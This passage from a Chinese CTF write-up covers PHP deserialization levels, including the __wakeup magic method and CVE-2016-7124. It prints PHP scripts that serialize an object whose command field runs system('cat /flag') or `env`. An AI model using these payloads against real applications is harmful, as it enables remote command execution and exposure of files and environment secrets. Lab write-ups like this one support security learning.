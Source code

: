 > [!success] 具体操作

先看源码，这道题是让我们熟悉自己反序列化构造，我们只需要修改`flag_command`的值即可。复制到自己的PHP环境去，然后获得序列化字符串即可
![Pasted image 20250406105421.png](/img/user/PNG/Pasted%20image%2020250406105421.png)
具体payload，理论上可行，但是不知道为什么一直出不来
```
<?php
class FLAG {
    var $flag_command = "system('cat /flag');";
}
$exp = "o=".urlencode(serialize(new FLAG()));
echo $exp;
```
法二：使用`env`来获取所有变量,这个方法可行
```
<?php
class FLAG {
    var $flag_command = "`env`;";
}
$exp = "o=".urlencode(serialize(new FLAG()));
echo $exp;
```

### level 10: 魔术方法__wakeup

> [!NOTE] 前置知识

正式的进入了反序列化的题目，这里我们从第一个常见的魔术方法 —— `__wakeup()` 开始。

> [unserialize()](https://www.php.net/manual/zh/function.unserialize.php) 会检查是否存在一个 [__wakeup()](https://www.php.net/manual/zh/language.oop5.magic.php#object.wakeup) 方法。如果存在，则会先调用 `__wakeup` 方法，预先准备对象需要的资源。
> 
> [__wakeup()](https://www.php.net/manual/zh/language.oop5.magic.php#object.wakeup) 经常用在反序列化操作中，例如重新建立数据库连接，或执行其它初始化操作。
> 
> ——[【PHP 手册 - 魔术方法 # wakeup】](https://www.php.net/manual/zh/language.oop5.magic.php#object.wakeup)

当我们从序列化字符串还原对象，也就是进行反序列化操作的时候，wakeup方法会被触发：


> [!success] 具体操作

准备秒杀，直接看payload，输入即可
![Pasted image 20250406111448.png](/img/user/PNG/Pasted%20image%2020250406111448.png)
![Pasted image 20250406111658.png](/img/user/PNG/Pasted%20image%2020250406111658.png)

### level 11:CVE-2016-7124

> [!NOTE] 前置知识

复习一下序列化字符串
![Pasted image 20250405134037.png](/img/user/PNG/Pasted%20image%2020250405134037.png)
